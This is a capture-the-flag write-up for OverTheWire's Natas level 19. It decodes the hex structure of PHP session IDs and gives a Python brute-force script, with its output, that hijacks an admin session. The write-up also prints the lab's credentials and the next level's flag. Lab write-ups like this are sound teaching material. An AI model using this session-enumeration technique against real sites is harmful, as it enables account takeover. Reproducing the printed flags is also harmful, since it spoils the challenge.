

# Level 19
## What does the page look like?
```html
$ curl -s --user natas19:4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs http://natas19.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>

<p>
Please login with your admin account to retrieve credentials for natas20.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
</div>
</body>
</html>
```

## Source code
This time, we are not provided with the source code, but we are told this is almost the same as the previous level, with non sequential session IDs.

## Analysis of PHPSESSID
This time indeed, PHPSESSID no longer seems to be an integer:



Let's generate a few session IDs to see how they are generated:

```python
#!/usr/bin/env python3
import requests

auth_user = 'natas19'
auth_pass = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
target = 'http://natas19.natas.labs.overthewire.org'
data = {'username':'admin','password':'password'}

for i in range(20):
	r = requests.post(
		target,
		auth=(auth_user, auth_pass),
		data=data)
	print(r.cookies['PHPSESSID'])
```

The program generates a few IDs where we can find a common part (`2d61646d696e`):
~~~
343934 2d61646d696e
3637   2d61646d696e
313834 2d61646d696e
353435 2d61646d696e
323834 2d61646d696e
3537   2d61646d696e
343231 2d61646d696e
333735 2d61646d696e
353737 2d61646d696e
323833 2d61646d696e
333035 2d61646d696e
353331 2d61646d696e
3736   2d61646d696e
313138 2d61646d696e
313233 2d61646d696e
353234 2d61646d696e
333136 2d61646d696e
313035 2d61646d696e
313332 2d61646d696e
353830 2d61646d696e
~~~

It seems that the session ID concatenates a random number with `2d61646d696e`. Now, if we generate more session IDs to assess the bounderies of the random number, we notice that the random number part:
* has 2 to 6 digits
* the numbers in odd positions (1, 3, 5) are in the range 0-9
* the number in even position (2, 4, 6) is always `3`

## Scripting

Now, let's adapt the script we used in the previous level:

```python
import requests
import sys

auth_user = 'natas19'
auth_pass = '4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs'
target = 'http://natas19.natas.labs.overthewire.org'

def check(id):
	phpsessid = '%s2d61646d696e' % id
	r = requests.get(
		target,
		auth=(auth_user, auth_pass),
		cookies={'PHPSESSID': phpsessid}
		)
	print("[REQUEST] PHPSESSID=%s" % phpsessid)
	if 'You are an admin' in r.text:
		print(r.text)
		sys.exit(0)

# 2 digits ID
print("===== 2 digits ID =====")
for i in range(10):
	id = "3%s" % i
	check(id)

# 3 digits ID
print("===== 3 digits ID =====")
for i in range(10):
	id = "3%s3" % i
	check(id)

# 4 digits ID
print("===== 4 digits ID =====")
for i in range(100):
	id = "3%s3%s" % (str(i).zfill(2)[0:1], str(i).zfill(2)[1:2])
	check(id)

# 5 digits ID
print("===== 5 digits ID =====")
for i in range(100):
	id = "3%s3%s3" % (str(i).zfill(2)[0:1], str(i).zfill(2)[1:2])
	check(id)

# 6 digits ID
print("===== 6 digits ID =====")
for i in range(1000):
	id = "3%s3%s3%s" % (str(i).zfill(3)[0:1], str(i).zfill(3)[1:2], str(i).zfill(3)[2:3])
	check(id)
```

Here is the output:
~~~
$ python findsession.py 
===== 2 digits ID =====
[REQUEST] PHPSESSID=302d61646d696e
[REQUEST] PHPSESSID=312d61646d696e
...
[REQUEST] PHPSESSID=382d61646d696e
[REQUEST] PHPSESSID=392d61646d696e
===== 3 digits ID =====
[REQUEST] PHPSESSID=3032d61646d696e
[REQUEST] PHPSESSID=3132d61646d696e
...
[REQUEST] PHPSESSID=3832d61646d696e
[REQUEST] PHPSESSID=3932d61646d696e
===== 4 digits ID =====
[REQUEST] PHPSESSID=30302d61646d696e
[REQUEST] PHPSESSID=30312d61646d696e
[REQUEST] PHPSESSID=30322d61646d696e
...
[REQUEST] PHPSESSID=39382d61646d696e
[REQUEST] PHPSESSID=39392d61646d696e
===== 5 digits ID =====
[REQUEST] PHPSESSID=303032d61646d696e
[REQUEST] PHPSESSID=303132d61646d696e
[REQUEST] PHPSESSID=303232d61646d696e
...
[REQUEST] PHPSESSID=393632d61646d696e
[REQUEST] PHPSESSID=393732d61646d696e
[REQUEST] PHPSESSID=393832d61646d696e
[REQUEST] PHPSESSID=393932d61646d696e
===== 6 digits ID =====
[REQUEST] PHPSESSID=3030302d61646d696e
[REQUEST] PHPSESSID=3030312d61646d696e
[REQUEST] PHPSESSID=3030322d61646d696e
...
[REQUEST] PHPSESSID=3237392d61646d696e
[REQUEST] PHPSESSID=3238302d61646d696e
[REQUEST] PHPSESSID=3238312d61646d696e
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
<body>
<h1>natas19</h1>
<div id="content">
<p>
<b>
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
</b>
</p>
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
</body>
</html>
~~~

# Flag
~~~
natas20:eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
~~~